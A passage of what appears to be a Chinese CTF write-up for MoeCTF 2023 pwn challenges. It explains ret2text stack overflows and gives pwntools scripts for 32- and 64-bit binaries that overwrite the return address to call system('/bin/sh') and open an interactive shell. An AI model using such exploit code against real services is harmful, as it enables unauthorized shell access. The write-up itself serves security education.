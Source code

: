 发送8589820078即可



## ret2text_32

通过IDA可以看到程序明显存在栈溢出漏洞，覆盖返回地址到b4ckdoor中的system函数，IDA中的string窗口也可以看到binsh字符串。通过栈传递参数。

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 34721)

system_addr = 0x08049070
binsh_addr = 0x0804C02C

sh.sendline(b'1024')
sleep(2)
pad = b'a' * 0x5c + p32(system_addr) + p32(0x1) + p32(binsh_addr)
sh.sendline(pad)

sh.interactive()
```



## ret2text_64

与32位不同，64位通过寄存器传参，第一个参数在rdi中。通过ROPgadget可以查找pop_rdi_ret的地址

![image-20230822231151994](./moectf2023-pwn-wp.assets/image-20230822231151994.png)



```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 34721)

system_addr = 0x4012B7
binsh_addr = 0x404050
pop_rdi = 0x4011be

sh.sendline(b'1024')
sleep(2)
pad = b'a' * 0x58 + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
sh.sendline(pad)

sh.interactive()
```
